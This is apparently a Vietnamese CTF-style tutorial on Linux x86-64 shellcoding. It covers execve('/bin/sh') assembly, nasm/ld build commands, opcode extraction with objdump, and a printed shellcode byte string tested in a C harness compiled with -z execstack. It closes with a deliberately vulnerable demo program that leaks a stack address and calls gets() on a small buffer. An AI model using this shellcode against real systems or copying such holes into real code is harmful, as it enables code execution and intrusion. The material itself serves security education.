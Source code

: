 # Shellcoding (Linux)
Khái niệm về shellcode có rất nhiều bài viết định nghĩa về nó, nên mình sẽ đề cập lại ở đây .Các bạn có thẻ tham khảo 1 số bài viết:
- https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html
- https://en.wikipedia.org/wiki/Shellcode

Tiếp theo mình sẽ nói về cách viết 1 shellcode cơ bản, cụ thể ở đây là 1 shellcode thực thi việc lên shell. Việc lên shell ở đây bản chất là ta sử dụng syscall execve("/bin/sh", NULL, NULL). Syscall là gì thì mình có giải thích qua ở bài viết về ROP bạn có thể tham khảo ở đây:
- https://github.com/shawking2/Writeup/tree/main/ROP

Để Shellcode có thể thực thi trong chương trình thì ta cần 1 số điều kiện cơ bản:

\+ Vùng nhớ ta đặt shellcode phải có quyền execute 
\+ Instruction call địa chỉ mà ta trữ shellcode đó. Khi đó shellcode sẽ được thực thi.
\+ Instruction ret về địa chỉ chú shellcode
\+ Lệnh nhảy về địa chỉ chứ shellcode của ta
\+ Mình chỉ liệt kê cách cách thực thi shellcode thường gặp mà mình thấy (vẫn còn nhiều trường hợp khác)

Để viết một shellcode sử dụng syscall execve("/bin/sh", NULL, NULL). Đầu tiên ta phải viết 1 chương trình assembly call syscall exceve("/bin/sh", NULL, NULL):
```
section .text
  global _start
    _start:
      push rax                    
      mov rbx,'/bin//sh'            # cho rbx chứa chuỗi "/bin/sh"
      xor rsi, rsi                  # rsi = NULL tham số thứ thứ 3 của exceve
      xor rdx, rdx                  # rdx = NULL tham số thứ thứ 3 của exceve
      push rbx                      # push chuỗi '/bin/sh' vào stack. Điều ngày có nghĩa rsp đang mang giá trị là địa chỉ của chuỗi '/bin/sh' 
      push rsp                      # push giá trị của rsp -> địa chỉ của '/bin/sh'
      pop rdi                       # rbx sẽ chứa đối số đầu tiên của excecve  -> "/bin/sh"
      mov al, 0x3b                  # syscall number của exceve
      syscall
```
Để biên dịch nó ta sẽ đưa đoạn code này lưu vào 1 file .asm .Sau dó dùng các lệnh sau để biên dịch:

> nasm -f elf64 shellcode.asm -o shellcode.o

> ld shellcode.o -o shellcode

Thao tác vừa rồi, ta vừa biên dịch đoạn code asm thành file binary:
```
higgs@DESKTOP-PMDB9KR:~$ ./shellcode
$ whoami
shawking
$
```
Run file này ta có thể thấy t đã hoàn thành việc lên shell nhờ gọi syscall exceve("/bin/sh", NULL, NULL).

Vậy thì tiếp theo làm sao ta tạo ra 1 shellcode .Nếu các bạn đã đọc qua cái bài viết ở trên thì bạn sẽ biết rằng shellcode chính là các byte code. Byte code ở đây thức chất chính là các opcode của các instruction trong chương trình ta vừa viết. Vậy để có được shellcode ta chỉ cần xem opcode của nó.

Công cụ objdump sẽ giúp ta điều này:
```
higgs@DESKTOP-PMDB9KR:~$ objdump --disassemble test

test:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       50                      push   %rax
  401001:       48 31 d2                xor    %rdx,%rdx
  401004:       48 31 f6                xor    %rsi,%rsi
  401007:       48 bb 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rbx
  40100e:       2f 73 68
  401011:       53                      push   %rbx
  401012:       54                      push   %rsp
  401013:       5f                      pop    %rdi
  401014:       b0 3b                   mov    $0x3b,%al
  401016:       0f 05                   syscall
```
Các bạn quan sát sẽ thấy có 1 cột hiện thị mã hex:

![screenshot](https://github.com/shawking2/Writeup/blob/main/ShellCode/img/opcode.PNG)
Xâu chuỗi các mã hex lại theo thú tự như trên ta có 1 chuỗi shellcode thực thi exceve("/bin/sh",NULL, NULL)
> SHELLCODE: 
```
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```
Ta có thể viết 1 đoạn code c đẻ kiểm tra shellcode của chúng ta (lưu ý ta phải thêm tham số -z execstack để có quyền execute trên stack)
```
#include <stdio.h>

unsigned char shellcode[] = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";
main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```
Biên dịch :  gcc -z execstack -o shell shell.c
Kết quả thực thi:
```
higgs@DESKTOP-PMDB9KR:~$ gcc -z execstack -o test test.c
test.c:4:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    4 | main()
      | ^~~~
higgs@DESKTOP-PMDB9KR:~$ ./test
$ whoami
shawking
$
```
Phân tích assembly của chương trình trên sẽ hiệu tại sao shellcode được thực thi:
```
   0x555555555129 <main+4>             sub    rsp, 0x10
   0x55555555512d <main+8>             lea    rax, qword ptr [rip + 0x2efc] <0x555555558030>
   0x555555555134 <main+15>            mov    qword ptr [rbp - 8], rax
   0x555555555138 <main+19>            mov    rdx, qword ptr [rbp - 8]
   0x55555555513c <main+23>            mov    eax, 0
 ► 0x555555555141 <main+28>            call   rdx <shellcode>
        rdi: 0x1
        rsi: 0x7fffffffdff8 —▸ 0x7fffffffe207 ◂— '/home/higgs/test'
        rdx: 0x555555558030 (shellcode) ◂— push   rax /* 0x48f63148d2314850 */
        rcx: 0x7ffff7fac718 (__exit_funcs) —▸ 0x7ffff7faeb00 (initial) ◂— 0

   0x555555555143 <main+30>            mov    eax, 0
   0x555555555148 <main+35>            leave
   0x555555555149 <main+36>            ret
```
Tại đây instruction call sẽ call địa chỉ chứa shellcode của chúng ta. Khi đó shellcode sẽ được thi.
> Challenge demo:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -z execstack -o demo demo.c -no-pie
int main(void)
{
  char buffer[32];
  printf("DEBUG: %p\n", buffer);
  gets(buffer);
}
```
### File binary: [demo](https://github.com/shawking2/Writeup/blob/main/ShellCode/src/demo?raw=true)







